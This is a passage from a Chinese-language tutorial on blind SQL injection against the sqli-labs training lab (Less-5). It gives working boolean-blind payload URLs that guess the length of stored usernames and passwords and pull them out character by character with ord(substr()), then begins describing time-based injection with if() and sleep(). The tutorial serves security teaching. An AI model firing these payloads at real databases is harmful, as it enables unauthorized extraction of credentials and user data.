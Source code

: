 URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and length((select username from security.users limit 0,1))=4--+

![img](https://s2.loli.net/2023/03/12/6edK5LEFZh9YiBf.jpg) 

判断password中第二行数据的长度，password第二行是admin是5位，所以返回页面的正常的。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and length((select password from security.users limit 1,1))=5--+

![img](https://s2.loli.net/2023/03/12/ABCDjGynlZRNIhe.jpg) 

#### 3.3.5.11.**猜测某字段数据的名**

判断username中第一行第一个字母。

Username中第一个字母是D，所以是68，当等于68的时候页面正常。

最后面的0，1），1，1 第一个1控制第几行，从0开始，第三个1控制字段第几个字母。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ord(substr((select username from security.users limit 0,1),1,1))=68--+

![img](https://s2.loli.net/2023/03/12/8UnecfWi5gDbljN.jpg) 

判断password中第二行第二个字母。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ord(substr((select password from security.users limit 1,1),2,1))=100--+

![img](https://s2.loli.net/2023/03/12/MoEdrFaRAXOQ6Ts.jpg) 

## 3.4.**基于时间盲注**

### 3.4.1.**时间盲注基本概念**

#### 3.4.1.1.**时间盲注的简介**

由于服务器端拼接了SQL语句，且正确和错误存在同样的回显，即是错误信息被过滤，可以通过页面响应时间进行按位判断数据。

#### 3.4.1.2.**时间盲注的原理**

时间盲注就是通过拼接if语句，构造我们判断的条件，根据条件的结果返回sleep()函数，使得页面的响应时间比正常的响应时间长，但是这个会由于网络情况造成误判，所以在测试前需要测试正常访问页面的时长。

### 3.4.2.**时间盲注基本步骤**

其实这里的基本步骤和布尔盲注都差不多，只不过是通过页面的响应时间来进行判断。

### 3.4.3.**常用盲注函数**

#### 3.4.3.1.**if()比较函数**

语法：if(cond，ture_result，False_result)

第一个参数cond为判断条件。
